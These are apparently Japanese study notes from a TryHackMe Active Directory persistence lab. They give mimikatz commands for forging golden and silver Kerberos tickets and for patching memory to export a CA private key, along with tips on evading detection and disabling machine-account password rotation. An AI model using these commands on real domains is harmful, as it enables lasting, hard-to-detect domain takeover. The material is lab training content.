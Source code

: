 ```ps
# ドメインSIDの取得
Get-ADDomain
```

```shell
# ゴールデンチケット生成
# デフォルトの管理者アカウント RID は 500。デフォルトも500。

mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

### シルバーチケット

シルバーチケットは偽造された TGS チケット。アクセスしたいサービスと直接インターフェイスする。

- 生成された TGS は、ターゲットとするホストのマシンアカウントによって署名される。
- ゴールデンチケットとシルバーチケットの主な違いは、取得できる権限の数。KRBTGT アカウントのパスワードハッシュがあれば、すべてにアクセスできる。シルバーチケットでは、攻撃対象のサーバーのマシンアカウントのパスワードハッシュにしかアクセスできないため、そのホスト自体のユーザーになりすますことしかできない。シルバーチケットのスコープは、特定のサーバーでターゲットにされているサービスに限定される。
- TGS は偽造されているため、関連する TGT はなく、DC にはアクセスされていないことを意味する。利用可能なログはターゲットサーバー上のものだけ。そのため、範囲は限定されるが、ブルーチームによる検出は大幅に困難になる。
- 権限は SID によって決定されるため、チケットにユーザーをホストのローカル管理者グループに配置する関連 SID が含まれている限り、シルバーチケットに存在しないユーザーを再度作成できる。
- マシンアカウントのパスワードは通常 30 日ごとにローテーションされるが、これは永続性には適していない。ただし、TGS が提供するアクセスを利用してホストのレジストリにアクセスし、マシンアカウントのパスワードローテーションを担うパラメータを変更することができる。これにより、マシンアカウントが静的のままになり、マシン上で永続性が付与される。
- 単一のホストにしかアクセスできないが、マシンアカウントは通常の AD アカウントとして使用できるため、ホストへの管理アクセスだけでなく、 AD ユーザーアカウントの場合と同様に AD を列挙および活用し続ける手段も得られる。

```shell
# シルバーチケット生成
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```

# 注意

# ここより下の全内容は、回復不可能になる可能性が高いので、レッドチームで契約上の許可があったとしても、基本的に「実行してはいけない」類のもの。

## 証明書

（注意）この証明書を除去するにはルート CA 証明書を取り消すしか方法がなくなる。

### CA の秘密鍵抽出

CA サーバーでエクスポート

```shell
# CA証明書があるか確認
mimikatz # crypto::certificates /systemstore:local_machine

# メモリにパッチして、エクスポート不可のキーをエクスポート可能にする
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched

# エクスポート。エクスポートされた証明書は、PFX 形式と DER 形式の両方でディスクに保存される。
```